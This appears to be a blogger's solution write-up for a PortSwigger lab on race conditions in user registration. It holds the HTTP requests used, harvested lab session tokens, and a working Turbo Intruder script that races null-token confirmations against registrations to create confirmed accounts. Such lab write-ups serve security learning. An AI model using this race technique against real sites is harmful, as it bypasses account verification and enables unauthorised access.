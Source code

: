 # Portswigger Lab: Race Conditions Partial Construction - My Solution

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the presence of a phpsessionid cookie.

Both the research paper and the academy article mention that the
standard PHP session library forces sequential requests within a given
session, masking race condition vulnerabilities. So I decided that my first
step would be to create a valid sessions, and gather the *phpsessionid* and
corresponding anti-csrf tokens.

My first attempt to generate sessions was with Burp macros, but after a few
hours of little or no progress I decided that I'd learn about macros later,
and would resort to pre-creating sessions in the Intruder. My reasoning is
that these sessions would be valid for some time, possibly for the lifetime
of the lab instance. 

I did worry a bit that a registration event might become tied to a given
session, but thankfully that turned out not to be the case.

Here's the request I used in Intruder:

```
GET /register HTTP/2
Host: <host>.web-security-academy.net
X-Count: §xxx§

```

![A simple GET request sent to intruder, and minimised, with an extra header for the dummy payload](resources/intruder_positions.png)

I decided to use sniper mode, with a dummy payload placed in a user-defined
header. In this case `X-Count`. 100 requests turned out to be overkill, but
I'll address that later.

![The payload is just a count](resources/intruder_payloads.png)

All that's left is to set up the extraction of server-provided data, the
phpsessionid and its associated anti-CSRF token, which are easily done in
the extraction tool in the Intruder settings section.

![Extract the phpsessionid from all responses](resources/intruder_extract_phpsessionid.png)

![Extract the anti-CSRF token from all responses](resources/intruder_extract_csrf.png)


The attack runs smoothly, and produces a results table which can be copied
and pasted into a file. Again these sessions seem to last for the lifetime
of the lab container instance.

![The results from Intruder](resources/intruder_results.png)

Here's an example of the Intruder attack output as text. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Once I had sessions I moved on constructing the actual turbo intruder
attack, and for an hour or so I got it completely wrong. I started with a
strategy of attacking the password, using a login request, reasoning that
there might be a short window in which the account is available and
unlocked. 

That didn't work, of course, but it did lead to a key observation. All POST
endpoints in the lab accept *extra* POST parameters without complaint. This
means that it's possible to use a single request for all endpoints, with
the path as a parameter.

Let's compare a valid registration request:
```
POST /register HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

With a valid login request:
```
POST /login HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

The login endpoint simply ignores the extra *email* parameter, which means
that the path can be parametized in Turbo-Intruder:

```
POST /%s HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=%s
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=%s&username=%s&email=%s%40ginandjuice.shop&password=peter
```

Later when I got frustrated that this wasn't working I went back and found
the oddly named /resources/static/users.js, and pretty quickly constructed
a GET request to /confirm. From there all that was left was to validate
that the /confirm POST endpoint would accept extra params. It does:

```
POST /confirm?token=foo HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

That means that just as with the failed attempt on the /login endpoint it's
possible to bounce back and forth between registration and confirmation.

So that's exactly what my Turbo-Intruder settings script does. For each
registration it also queues a confirmation POST in the hope that one or
mroe of them hit the tiny window during which confirmation can be done
a null token. The server of course processes the requests in whatever order
it chooses. So it's all luck from here:

Turbo-Intruder configuration (also available as ./partial_construction_race_condition.py).

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

However it turns out that 100 registrations are complete overkill.
Statistically it looks like just under one quarter of the confirmation
requests hit the window, producing about two dozen valid accounts:

![Turbo intruder setup](resources/turbo_intruder_setup.png)

![Turbo intruder results](resources/turbo_intruder_success.png)


All that's left is to log in with one of them and delete *Carlos*:

![](resources/success.png)


## Lessons learned

I really should have noticed users.js earlier. Having done so would have
saved me at least an hour. I can generalize this into a lesson to invest
more time into the reconaissance phase of an attack.

## Further research

Given the importance of operational security it could be useful to optimise
this attack to create fewer dummy accounts, and thus less noise. So the
next step is to find the smallest number of sessions from sessions.txt
which result in at least one valid account being created.

This attack bears superficial similarity to early quantum physics
experiments including the slit experiment and Lise Meitner's discovery of
Nuclear Fission. I wonder if the sample of sucessful POSTs to /confirm
might follow a wave function, and what relationship that function might
have to Bohr's field strength equations.

Obviously a web server is not a quantum system, however, patterns from
physics and maths have a way of showing up in other domains, and while
there might be nothing of interest to find here, there might also be some
hidden poetry.

